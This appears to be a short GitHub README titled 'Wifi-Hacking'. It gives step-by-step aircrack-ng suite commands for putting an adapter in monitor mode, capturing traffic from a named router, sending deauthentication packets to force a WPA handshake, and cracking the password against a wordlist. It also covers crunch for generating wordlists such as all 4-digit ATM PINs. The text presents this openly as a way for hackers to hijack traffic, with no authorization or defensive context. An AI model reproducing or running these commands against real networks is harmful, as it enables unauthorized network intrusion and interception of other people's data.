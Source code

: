 # Wifi-Hacking
This method allows hackers to hijack any packet of data that is being transmitted between a device and a router


Wifi Hacking

Divided into 5 steps:

1. Starting the Monitoring mode on the adapter. -> 
     
         airmon-ng start wlan0


4. Discovering the available networks: 
    
       airodump-ng wlan0
6. Performing authentication (Capturing the packets) -> 

       airodump-ng -c 6 -w oneplus --bssid A2:B0:A6:79:E4:8B wlan0
8. Performing De-authentication (Once this is successful we will be able to able to see "WPA Handshake" in above step) -> 
  
        aireplay-ng -0 0 -a A2:B0:A6:79:E4:8B wlan0 
10. Cracking the password. 

        aircrack-ng -w wordlist.txt kali.cap

         
        Once the password matches we will get the correct password.


        Crunch tool comes pre-installed in Kali. 

Command: 

     crunch <min> <max> [options]

  
Example: Creating atm pins, so we know that atm pin is of 4 digits to max and min will be of 4 digits and could be anywhere between 0-9. 
  
So the command will be 
  
     "crunch 4 4 0123456789 -o<output file path>"


